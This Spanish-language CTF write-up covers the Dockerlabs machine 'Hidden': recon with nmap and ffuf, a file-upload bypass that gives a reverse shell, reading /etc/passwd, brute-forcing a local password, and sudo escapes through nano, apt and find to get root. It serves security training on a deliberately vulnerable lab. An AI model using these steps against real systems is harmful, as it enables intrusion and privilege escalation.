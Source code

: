 ```yaml
---
title: Hidden Dockerlabs
image: /assets/img/Anexos/Máquina%20Hidden-4.png
description: Hidden Mybb de Dockerlabs [Dificultad Media]
categories: [CTF,Dockerlabs]
tags: [hacking,medium]
---
```


## Introduction

N/A

### Machine Description

![](/assets/img/Anexos/Máquina%20Hidden-5.png)

- Name: Hidden
- Goal: Get two flags
- Difficulty: medium
- Operating System: Linux
- link: [Hidden](https://mega.nz/file/EO8DzKgR#V3Vj8pWT6dUfWP03Zi2ZNs-o3uztnrTd1qGxvnn3oHo)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Dockerlabs/M%C3%A1quina%20Hidden.pdf)







## Reconocimiento
Comenzamos con un escaneo completo de `nmap`
```shell
nmap -sSCV --min-rate=5000 -p- -n -Pn 172.17.0.2 -oN scan1.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 19:52 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://hidden.lab/
MAC Address: CA:10:54:26:43:97 (Unknown)
Service Info: Host: localhost

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```
Nmap nos reporta el puerto _80_ el cual tiene un dominio por lo que lo anotamos en el _/etc/hosts_
![](/assets/img/Anexos/Máquina%20Hidden.png)

Fuzeando con `ffuf` encuentro un subdominio:
```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://hidden.lab -H "Host:FUZZ.hidden.lab" -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hidden.lab
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.hidden.lab
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

dev                     [Status: 200, Size: 1653, Words: 550, Lines: 58, Duration: 43ms]
:: Progress: [114442/114442] :: Job [1/1] :: 62 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

En este, podemos subir ficheros pdf:
![](/assets/img/Anexos/Máquina%20Hidden-1.png)
## Explotación

Para hacer el bypass e intentar subir un archivo php voy a usar Burpsuite
![](/assets/img/Anexos/Máquina%20Hidden-2.png)

El fichero si que se ha subido, ahora me entablo una shell.
![](/assets/img/Anexos/Máquina%20Hidden-3.png)

> Al final lo tuve que hacer con un _.phtml_ 

```shell
❯ nc -nlvp 4444
Connection from 172.17.0.2:49680
Linux b897ca899b49 6.13.8-arch1-1 #1 SMP PREEMPT_DYNAMIC Sun, 23 Mar 2025 17:17:30 +0000 x86_64 x86_64 x86_64 GNU/Linux
 19:18:53 up  4:08,  0 users,  load average: 0.45, 0.61, 0.61
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b897ca899b49:/$ 
```

## Escalada de privilegios
Una vez que tenemos la shell, hay 3 usuarios para escalar
```shell
www-data@b897ca899b49:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
cafetero:x:1000:1000::/home/cafetero:/bin/sh
john:x:1001:1001::/home/john:/bin/sh
bobby:x:1002:1002::/home/bobby:/bin/sh
```

Para brutefocearlos use este script:
https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh

Además me copie las 300 primeras líneas del rockyou.
```shell
www-data@b897ca899b49:/tmp$ ./BF.sh -u cafetero -w rockyou.txt 
  [+] Bruteforcing cafetero...
  You can login as cafetero using password: 123123
```

Una vez estamos como cafetero, podemos ejecutar `nano` como **john**
```shell
cafetero@b897ca899b49:/home$ sudo -l
Matching Defaults entries for cafetero on b897ca899b49:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cafetero may run the following commands on b897ca899b49:
    (john) NOPASSWD: /usr/bin/nano
```

Para la escalada hice:
```shell
sudo -u john nano
^R^X
reset; sh 1>&0 2>&0
```

Ahora como **john** podemos ejecutar `apt` como **bobby**
```shell
sudo -l
Matching Defaults entries for john on b897ca899b49:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on b897ca899b49:
    (bobby) NOPASSWD: /usr/bin/apt
```

Para la escalada:
```shell
sudo -u bobby apt changelog apt
!/bin/sh
```

Ahora como **bobby** podemos ejecutar `find` como **root**
```shell
sudo -l
Matching Defaults entries for bobby on b897ca899b49:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bobby may run the following commands on b897ca899b49:
    (root) NOPASSWD: /usr/bin/find
```

Para la escalada: 
```shell
sudo find . -exec /bin/sh \; -quit

# whoami
root
```
